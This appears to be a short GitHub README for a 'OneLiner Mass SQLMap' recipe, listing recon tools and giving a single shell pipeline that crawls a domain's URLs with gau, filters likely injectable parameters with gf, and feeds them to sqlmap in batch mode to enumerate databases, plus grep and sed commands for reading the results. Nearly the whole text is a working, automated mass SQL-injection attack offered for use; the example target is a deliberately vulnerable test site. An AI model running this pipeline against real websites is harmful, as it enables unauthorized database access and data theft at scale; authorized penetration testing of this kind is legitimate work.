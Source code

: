 # OneLiner Mass SQLMap

## Tools
- <a href="https://github.com/sqlmapproject/sqlmap/">sqlmap</a>
- <a href="https://github.com/lc/gau">gau</a>
- <a href="https://github.com/tomnomnom/gf">gf</a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns">gf-pattern</a> 
- <a href="https://github.com/dwisiswant0/unew">unew</a>
- grep
- sed

## One Liner Mass SQLMap

```
echo "vulnweb.com" | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,exe | gf sqli | unew >> sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs | tee -a sqlmap.txt
```

* All log result stored in sqlmap.txt


## Quick find SQLMap result 

<img src="sed.jpg">

** Show line number of logs *sqlmap.txt if get databases with grep keyword *available databases **
```
grep -n "available databases" sqlmap.txt
```

** Slice Output with sed **
```
sed -n '147,159p' sqlmap.txt
```
* slice from line 147 to line 159 with sed

Thanks :)

Ve

Follow me <a href="https://twitter.com/Verry__D">@Verry__D</a>

Subscribe Infosec Telegram Channel <a href="https://t.me/sec7or">Tools & Writeups</a>

